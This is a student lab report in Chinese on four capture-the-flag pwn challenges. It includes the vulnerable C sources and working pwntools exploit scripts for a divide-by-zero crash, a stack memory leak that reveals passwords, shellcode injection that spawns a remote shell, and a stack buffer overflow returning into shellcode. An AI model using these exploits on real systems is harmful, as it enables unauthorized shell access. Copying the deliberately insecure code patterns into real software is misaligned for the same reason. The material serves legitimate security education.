


# Lab1-Pwn Report

**<font size=5>Contents</font>**

[TOC]

<div style="page-break-after:always;"></div>

## Task 1

nocrash.c 代码如下：

```c
#include <stdio.h>

void prepare()
{
	setvbuf(stdin, 0LL, 2, 0LL);
	setvbuf(stdout, 0LL, 2, 0LL);
	alarm(60);
}

int pow(int a, int b)
{
	int c = a;
	if (b == 0)
		return 1;

	for (; b > 1; b--)
	{
		c = a * c;
	}
	return c;
}

int main()
{
	int a, b, i, j;

	prepare();

	printf("Input your decimal number: ");
	scanf("%d", &a);

	printf("What do you want to turn it into: ");
	scanf("%d", &b);

	for (i = 0; i < 100; i++) {
		if (a <= pow(b, i))
			break;
	}

	printf("Result: ");
	for (; i > 0; i--) {
		j = a / pow(b, i - 1);
		printf("%d", j);
		a = a % (int)pow(b, i - 1);
	}
	putchar('\n');

	return 0;
}

```

注意到第 42 行有除法操作，可以考虑除零问题，那么尝试输入 b 为 0，即可得到 flag:


这里是交互的界面，我们尝试用 pwntools 来交互出 flag，编写 Python 程序如下：

```python
from pwn import *
from wstube import websocket

p = websocket("wss://ctf.zjusec.com/api/proxy/3a9ab06c-72fc-4fb5-bd6c-aa4906c123b6")

p.recv() # 接收“Input your decimal number:”
p.sendline("1010") # 发送 1010
p.recv() # 接收“What do you want to turn it into:”
p.sendline("0") # 发送 0
p.interactive() # 来到交互界面，查看 flag
```

最终结果如下：


## Task 2

代码如下：

```c
#define _GNU_SOURCE

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <unistd.h>

#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>

#define ADMIN_NAME "admin"
#define USER_NAME "user"

#define BUFFER_SIZE (32)

int get_password(char *name, char *buf)
{
	unsigned int length;
	printf("Hello %s, please tell me the length of your password\n", name);
	scanf("%d", &length);

	if (length > BUFFER_SIZE)
	{
		printf("you password is way too long");
		return -1;
	}
	else
	{
		printf("cool, input your password\n");
		return read(STDIN_FILENO, buf, BUFFER_SIZE);
	}
}

#define VERIFY "\x27\x85\x56\x4a\xb2\x29\xe7\xf1\xa6\xc0\xab\xd7\xd6\x82\xb8\x1b\x4c\x43\xb0\x33\x0d\xb2\xbe\xb8\x10\x7a\x73\x30\x0a\xf3\xff\x59"
#define KEY "\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa"

void tea_decrypt_block(uint32_t *v, uint32_t *k)
{
	uint32_t v0 = v[0], v1 = v[1], sum = 0xC6EF3720, i;	 /* set up */
	uint32_t delta = 0x9e3779b9;						 /* a key schedule constant */
	uint32_t k0 = k[0], k1 = k[1], k2 = k[2], k3 = k[3]; /* cache key */
	for (i = 0; i < 32; i++)
	{ /* basic cycle start */
		v1 -= ((v0 << 4) + k2) ^ (v0 + sum) ^ ((v0 >> 5) + k3);
		v0 -= ((v1 << 4) + k0) ^ (v1 + sum) ^ ((v1 >> 5) + k1);
		sum -= delta;
	} /* end cycle */
	v[0] = v0;
	v[1] = v1;
}

void tea_decrypt(char *ciphertext, int len, char *key)
{
	if (len % 8 != 0)
		exit(1);

	for (int i = 0; i < len; i += 8)
	{
		tea_decrypt_block(ciphertext + i, key);
	}
}

void get_user_password(char *buf)
{
	memcpy(buf, VERIFY, BUFFER_SIZE);
	tea_decrypt(buf, BUFFER_SIZE, KEY);
}

void get_admin_password(char *buf)
{
	int fd = open("password.txt", O_RDONLY);
	if (fd < 0)
	{
		printf("something wrong\n");
		exit(-1);
	}
	read(fd, buf, BUFFER_SIZE);
	close(fd);
}

void prepare()
{
	setvbuf(stdin, 0LL, 2, 0LL);
	setvbuf(stdout, 0LL, 2, 0LL);
	alarm(60);
}

int main(int argc, char *argv[])
{
	char username[BUFFER_SIZE];
	char password[BUFFER_SIZE];
	char password_verify[BUFFER_SIZE];

	prepare(); // quite necessary

	memset(username, 0, BUFFER_SIZE * 3);

	printf("Hello there, please input your username\n");
	read(STDIN_FILENO /* 0 */, username, BUFFER_SIZE);

	if (username[strlen(username) - 1] == '\n')
		username[strlen(username) - 1] = 0;

	get_password(username, password);

	if (!strncmp(username, ADMIN_NAME, strlen(ADMIN_NAME)))
	{
		get_admin_password(password_verify);
		if (!memcmp(password, password_verify, BUFFER_SIZE))
		{
			printf("password correct! launch your shell\n");
			system("/bin/sh");
		}
		else
			goto wrong_password;
	}
	else if (!strncmp(username, USER_NAME, strlen(USER_NAME)))
	{
		get_user_password(password_verify);
		if (!memcmp(password, password_verify, BUFFER_SIZE))
		{
			printf("password correct! show your the first part of flag\n");
			printf("flag1: %s", getenv("FLAG1"));
		}
		else
			goto wrong_password;
	}
	else
		goto wrong_password;

	return 0;

wrong_password:
	printf("What's wrong with you? Are you a hacker?\n");
	printf("----------------- LOG -----------------\n");
	printf("you input name as %s (len %d)\n", username, strlen(username));
	printf("you input password as %s (len %d)\n", password, strlen(password));
	printf("---------------------------------------\n");
	return -1;
}

```

在这个程序中首先 `read(STDIN_FILENO /* 0 */, username, BUFFER_SIZE);` 让我们输入用户名，这其中定义了两个字符串 `“admin”` 和 `"user"`，是和我们输入的用户名来进行比较的，因此我们如果输入 admin 或者 user 可以进一步 crack 这个程序。

随后 `get_password(username, password);` 让我们首先输入密码长度，同时定义了一个 `BUFFER_SIZE` ，这里就要求我们输入的长度应当小于等于 32。

随后读到密码，然后有两个函数 `get_admin_password` 和 `get_user_password` ，我们一个一个来分析：

`get_admin_password` 涉及一个文件叫 `password.txt`，这个文件当然是保存在远程的，我们无法拿到，在这条路堵死了。

`get_user_password` 这里调用了一个 `tea_decrypt` 的函数来解密一个叫 `KEY` 的东西，传回去，与我们的密码相同就给出 flag 的第一部分。

这道题真正的漏洞在于最后的 `wrong_password` 部分，这里的输出是采用 `%s` 的方式输出的，这个输出方式是一直输出直到看到 `\0` 才会停止，因为这个程序存储是紧贴着的，username 紧接着就是 password ，再接着就是 password_verify，这个 password_verify 正是我们想要的东西，存储 admin 和 user 的 password。换言之，如果我们输入的 password 中没有 `\0`，那么程序会一直输出，把 password_verify 给放出来。那么我们通过交互界面来测试一下：


果然，在 wrongpassword 时放出了正确的密码：I_am_very_very_strong_password!!重新输入一遍进行交互，就可以得知 flag 的前半部分：


用 python 代码就这么编写：

```python
from pwn import *
from wstube import websocket

p = websocket("wss://ctf.zjusec.com/api/proxy/796dc480-8488-48ff-b02b-448798009db6")

print(p.recvline())
p.sendline("user")
print(p.recvline())
p.sendline("32")
print(p.recvline())
p.sendline("A"*32)
p.interactive()
```

得到：


得到正确密码，用 python 代码再交互一遍：

```python
from pwn import *
from wstube import websocket

p = websocket("wss://ctf.zjusec.com/api/proxy/796dc480-8488-48ff-b02b-448798009db6")

print(p.recvline())
p.sendline("user")
print(p.recvline())
p.sendline("32")
print(p.recvline())
p.sendline("I_am_very_very_strong_password!!")
p.interactive()
```

得到 flag 第一部分：


换成 admin 再来一遍，得到正确密码：

```python
from pwn import *
from wstube import websocket

p = websocket("wss://ctf.zjusec.com/api/proxy/796dc480-8488-48ff-b02b-448798009db6")

print(p.recvline())
p.sendline("admin")
print(p.recvline())
p.sendline("32")
print(p.recvline())
p.sendline("A"*32)
p.interactive()
```


输入正确密码，这时候根据给的代码，我们能进入远程的终端：

```python
from pwn import *
from wstube import websocket

p = websocket("wss://ctf.zjusec.com/api/proxy/796dc480-8488-48ff-b02b-448798009db6")

print(p.recvline())
p.sendline("admin")
print(p.recvline())
p.sendline("32")
print(p.recvline())
p.sendline("ILovePlayCTFbtwAlsoDota2!")
p.interactive()
```


通过命令行，我们能找到后半部分 flag，以及 password.txt：



前后拼接起来我们就可以得到最终的 flag：AAA{Oh_D1rTy_staCK_Ne3d_C1a4n}

## Task 3

代码如下：

```c
#define _GNU_SOURCE

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <unistd.h>

#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sys/mman.h>
#include <errno.h>

#define MAP_ADDR (0x14000)
#define CODE_SIZE (0x100)

void prepare()
{
    setvbuf(stdin, 0LL, 2, 0LL);
    setvbuf(stdout, 0LL, 2, 0LL);
    alarm(60);
}


int main(int argc, char const *argv[])
{
    void* address;
    int size = sysconf(_SC_PAGESIZE);
    int a, b, c;
    int (*funcptr)(int, int);
    int error = -1;

    prepare();

    a = random() & 0xff;
    b = random() & 0xff;

    address = mmap(MAP_ADDR, size, PROT_EXEC | PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS | MAP_FIXED, -1, 0);

    if (address == MAP_FAILED) {
        perror("mmap");
        exit(-1);
    }

    funcptr = address;

    printf("Hello there, once you finish the delegate tasks I requested,\nI will give you your flag :)\n");
    printf("*** DO NOT CHEAT ME, BIG MA IS WATHCING YOU ***\n");
    printf("-----------------------------------------------------------\n");

    printf("Request-1: give me code that performing ADD\n");
    read(STDIN_FILENO, address, CODE_SIZE);
    c = funcptr(a, b);

    if (c != a + b) {
        printf("you fail, try again\n");
        goto fail;
    }
    printf("goooooood, next one\n");

    printf("Request-2: give me code that performing SUB\n");
    read(STDIN_FILENO, address, CODE_SIZE);
    c = funcptr(a, b);

    if (c != a - b) {
        printf("you fail, try again\n");
        goto fail;
    }
    printf("goooooood, next one\n");

    printf("Request-3: give me code that performing AND\n");
    read(STDIN_FILENO, address, CODE_SIZE);
    c = funcptr(a, b);

    if (c != (a & b)) {
        printf("you fail, try again\n");
        goto fail;
    }
    printf("goooooood, next one\n");

    printf("Request-4: give me code that performing OR\n");
    read(STDIN_FILENO, address, CODE_SIZE);
    c = funcptr(a, b);

    if (c != (a | b)) {
        printf("you fail, try again\n");
        goto fail;
    }
    printf("goooooood, fianl one\n");

    printf("Request-5: give me code that performing XOR\n");
    read(STDIN_FILENO, address, CODE_SIZE);
    c = funcptr(a, b);

    if (c != (a ^ b)) {
        printf("you fail, try again\n");
        goto fail;
    }
    
    printf("Soooooooo wonderful, here is your first part of flag:\n");
    printf("%s", getenv("FLAG1"));
    error = 0;

fail:
    munmap(address, size);
    return error;
}

```

这份代码希望我们给它执行加减与或异或操作的代码，以机器码的形式呈现。我们先编写一个 c 语言函数：

```c
int add(int a,int b)
{
	return a+b;
}
```

通过命令行 `gcc -S -O2 add.c` 将其转换为优化后的汇编代码（不加 `-O2` 汇编代码有很多不重要的代码）

命令行 `as add.s -o add.o`  将 add.s 文件汇编为 add.o 文件，利用命令行 `objdump -d add.o` 查看内容：


这样子我们就拿到了加法的机器码。

运行一下 inject_me 程序，看到整个交互的样子：


编写 python 程序来交互：

```python
from pwn import *
from wstube import websocket

p = websocket("wss://ctf.zjusec.com/api/proxy/f4b7c7c2-447c-4efa-9397-030c2919d789")

add_code = b"\xf3\x0f\x1e\xfa\x8d\x04\x37\xc3"

p.sendafter(b"Request-1: give me code that performing ADD", add_code)
p.interactive()
```


成功进入第二个任务。按照上面的方法把 python 程序补全：

```python
from pwn import *
from wstube import websocket

p = websocket("wss://ctf.zjusec.com/api/proxy/f4b7c7c2-447c-4efa-9397-030c2919d789")

add_code = b"\xf3\x0f\x1e\xfa\x8d\x04\x37\xc3"
sub_code = b"\xf3\x0f\x1e\xfa\x89\xf8\x29\xf0\xc3"
and_code = b"\xf3\x0f\x1e\xfa\x89\xf8\x21\xf0\xc3"
or_code = b"\xf3\x0f\x1e\xfa\x89\xf8\x09\xf0\xc3"
xor_code = b"\xf3\x0f\x1e\xfa\x89\xf8\x31\xf0\xc3"

p.sendafter(b"Request-1: give me code that performing ADD", add_code)
p.sendafter(b"Request-2: give me code that performing SUB", sub_code)
p.sendafter(b"Request-3: give me code that performing AND", and_code)
p.sendafter(b"Request-4: give me code that performing OR", or_code)
p.sendafter(b"Request-5: give me code that performing XOR", xor_code)
p.interactive()
```

得到 flag 的第一部分：


如何获得 flag 的后半部分呢？根据前面这道题，我们也希望能直接进入远程的终端找找看 flag2 所在，在 pwntools 中有一个 `shellcraft.sh()` 能让我们直接进入终端，编写 python 程序：

```python
from pwn import *
from wstube import websocket

context.arch = 'amd64'

p = websocket("wss://ctf.zjusec.com/api/proxy/f4b7c7c2-447c-4efa-9397-030c2919d789")

sc_asm = shellcraft.sh()
sc = asm(sc_asm)

p.sendafter(b"Request-1: give me code that performing ADD", sc) # 直接强行进入终端
p.interactive()
```

可以进入对方终端，那么我们就可以运用命令行得到后半部分 flag：



拼接起来最终的 flag 为：AAA{SheL1c0de_T0_9E7_All_F1ag5}

## Task 4

代码如下：

```c
// gcc sbofsc.c -fno-stack-protector -g -o sbofsc
#define _GNU_SOURCE

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <unistd.h>

#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sys/mman.h>
#include <errno.h>

#define RDNKEY "MRND"
#define MAP_ADDR 0x20000

void prepare()
{
	setvbuf(stdin, 0LL, 2, 0LL);
	setvbuf(stdout, 0LL, 2, 0LL);
	alarm(60);
}

int main(int argc, char *argv[])
{
	prepare(); // quite necessary
	
	int rndval;
	int size = sysconf(_SC_PAGESIZE);
	char *rndstr = getenv(RDNKEY);
	char buffer[32];

	sscanf(rndstr, "%d", &rndval);

	uint64_t map_addr = MAP_ADDR + ((rndval % 8) * 0x1000);
	mmap(map_addr, size, PROT_EXEC | PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS | MAP_FIXED, -1, 0);
	puts("what's your name: ");
	read(0, map_addr, 64);
	puts("try to overflow me~");
	gets(buffer);
	return 0;
}
```

同样这个程序并没有包含 flag 的信息，那么我们还是希望攻入远程终端查看 flag 信息。

在这里我们希望通过栈溢出的方式来攻击这个程序，我们把 shellcode 的代码注入到输入的 map_addr 地址上，通过溢出 buffer 使其跳到 map_addr 上，即打开终端。因为地址是随机的，所以我们需要多尝试几次，直到输入的包正好打到 address 即可进入远程终端。

这里我们就需要看一下 buffer 的偏移量，用 IDA 打开 elf 文件，可以看到：


那么编写 python 程序如下：

```python
from pwn import *
from wstube import websocket
import random

context.arch = 'amd64'

p = websocket("wss://ctf.zjusec.com/api/proxy/9ec6f4ef-477b-458b-a3e4-1ea5ca3b52be")

sc_asm = shellcraft.sh()
sc = asm(sc_asm)

payload = flat(
    b"A" * 0x48, # 要使得栈溢出得在原来的基础上加 8
    p64(0x20000 + (random.randint(0,7)) * 0x1000)
)

p.sendlineafter("what's your name: ", sc)
p.sendlineafter("try to overflow me~", payload)
p.interactive()
```

一发入魂！进入终端，拿到 flag：

